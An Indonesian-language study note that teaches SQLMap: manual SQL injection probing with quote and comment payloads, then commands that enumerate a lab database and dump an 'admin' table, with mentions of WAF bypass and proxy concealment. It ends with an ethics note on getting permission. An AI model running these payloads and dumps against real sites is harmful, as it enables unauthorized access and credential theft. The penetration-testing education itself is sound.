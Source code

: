 ```yaml
---
id: SQL Map
aliases: []
tags:
  - hacking_fundamentals
  - hakcing_tools
---
```


Tags: [[hacking_intermediate]] [[hacking_tools]]

## Apa Itu SQLMap?

**SQLMap** adalah alat otomatis untuk pengujian penetrasi, yang dirancang untuk mendeteksi dan mengeksploitasi kerentanan **SQL Injection** pada aplikasi web. Alat ini dilengkapi dengan berbagai fitur yang mempermudah penyerangan dan pengujian keamanan, seperti:
- Deteksi otomatis tipe database.
- Teknik eksploitasi otomatis.
- Penggalian data sensitif dari database.

---

## Langkah-Langkah Menggunakan SQLMap

### 1. Mencari Target dengan Kerentanan SQL Injection
- Temukan parameter yang rentan, misalnya `id=1`.
- Tambahkan tanda petik (`'`) di belakang nilai parameter untuk memeriksa kerentanan:
  ```
  id=1'
  ```
  - Jika muncul *syntax error* dari database, ini indikasi awal kerentanan.
- Lakukan **balancing** dengan menambahkan komentar SQL untuk mengabaikan sisa query:
  ```
  id=1'-- -
  ```
  - Jika masih error, coba tanpa tanda petik:
    ```
    id=1-- -
    ```
- Jika respon kembali normal, maka target memiliki potensi kerentanan **SQL Injection**.

---

### 2. Menjalankan SQLMap untuk Eksploitasi Otomatis

#### Menampilkan Bantuan SQLMap
- Jalankan perintah berikut untuk melihat opsi lengkap:
  ```bash
  python sqlmap.py -h
  ```

Beberapa parameter penting:
- `-u` : Menargetkan URL.
- `-G` : Menggunakan hasil dari **Google Dorking**.
- `--dbms` : Menentukan tipe **Database Management System** (MySQL, PostgreSQL, dll.).
- `-p` : Menentukan parameter spesifik yang ingin diuji.
- `--level` : Tingkat pengujian (1-5).
- `--risk` : Tingkat risiko (1-3).
- `--technique` : Memilih teknik SQL Injection (misalnya: Boolean, Error, Union).

---

### 3. Langkah Eksekusi SQLMap

#### a. Menargetkan URL
Salin URL target, misalnya:
```text
https://local/vuln/read.php?id=1
```
Jalankan SQLMap untuk memeriksa database:
```bash
python sqlmap.py -u https://local/vuln/read.php?id=1 --dbs
```
- `--dbs` : Menampilkan daftar database yang tersedia.

#### b. Melihat Isi Database
Setelah database ditemukan, gunakan perintah untuk melihat tabel dalam database tertentu:
```bash
python sqlmap.py -u https://local/vuln/read.php?id=1 -D vulnlabs --tables
```
- `-D` : Menentukan nama database (contoh: `vulnlabs`).
- `--tables` : Menampilkan tabel dalam database.

#### c. Mengekstrak Kolom dari Tabel
Jika tabel ditemukan (contoh: `admin`), ekstrak kolom menggunakan:
```bash
python sqlmap.py -u https://local/vuln/read.php?id=1 -D vulnlabs -T admin --columns
```
- `-T` : Menentukan nama tabel (contoh: `admin`).
- `--columns` : Menampilkan kolom dalam tabel.

#### d. Mengekstrak Data dari Tabel
Untuk mengunduh semua data dari tabel, gunakan:
```bash
python sqlmap.py -u https://local/vuln/read.php?id=1 -D vulnlabs -T admin --dump
```
- `--dump` : Mengekstrak data dari tabel yang dipilih.

---

## Fitur Penting SQLMap
1. **Deteksi Otomatis Database Management System (DBMS):**
   SQLMap dapat secara otomatis mengenali jenis database (MySQL, PostgreSQL, MSSQL, Oracle, dll.).

2. **Berbagai Teknik Injeksi:**
   SQLMap mendukung teknik Boolean-based, Error-based, Union-based, Time-based, dan Out-of-band.

3. **Ekstraksi Data Sensitif:**
   Alat ini mampu mengekstrak data seperti username, password, email, dan kredensial lainnya.

4. **Bypass Proteksi Web:**
   Mendukung bypass **WAF (Web Application Firewall)** dengan fitur encoding payload.

5. **Integrasi dengan Proxy:**
   Mendukung integrasi proxy untuk menyamarkan aktivitas.

---

## Catatan Etika dan Hukum
- **Gunakan dengan Izin:** Hanya uji sistem yang Anda miliki atau dengan izin eksplisit dari pemilik.
- **Patuh Hukum:** Penggunaan tanpa izin dapat dianggap sebagai pelanggaran hukum di banyak negara.
- **Pelajari untuk Tujuan Positif:** SQLMap adalah alat pembelajaran dan audit keamanan, bukan alat perusak.
